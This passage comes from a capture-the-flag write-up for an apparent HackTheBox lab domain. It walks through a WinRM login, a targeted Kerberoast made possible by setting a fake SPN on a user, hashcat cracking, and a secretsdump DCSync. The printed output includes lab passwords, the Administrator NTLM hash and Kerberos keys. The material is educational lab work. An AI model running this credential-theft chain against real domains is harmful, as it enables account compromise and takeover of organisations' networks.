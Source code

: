 We find the password for three users.

![](/assets/images/writeups/administrator/pwsafe-emily.png)

We can now log into the DC as Emily and grab the user flag.

```console
$ evil-winrm -i administrator.htb -u emily -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb"
*Evil-WinRM* PS C:\Users\emily\Desktop> cat user.txt
```

# Root
Emily also has `GenericWrite` access to `Ethan`. We can therefore perform the same attacks as before and perform a targeted Kerberoast attack. 

![](/assets/images/writeups/administrator/BH-DCSync.png)

From the BloodHound data we see that `ethan` has the `DS-Replication-Get-Changes` and the `DS-Replication-Get-Changes-All` permission on the domain `ADMINISTRATOR.HTB`. We can perform a DCSync attack after compromsing his account. Let's proceed!

```console
$ bloodyAD --host 10.10.11.42 -d administrator.htb -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' set object ethan servicePrincipalName -v 'fake2/dc.administrator.htb'
$ GetUserSPNs.py -dc-ip 10.10.11.42 'administrator.htb/olivia:ichliebedich' -request-user ethan
$ hashcat -m 13100 ethan.hash $ROCKYOU
<HASH>:limpbizkit

$ secretsdump.py 'administrator.htb/ethan:limpbizkit'@10.10.11.42 -just-dc-user administrator
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:9d453509ca9b7bec02ea8c2161d2d340fd94bf30cc7e52cb94853a04e9e69664
Administrator:aes128-cts-hmac-sha1-96:08b0633a8dd5f1d6cbea29014caea5a2
```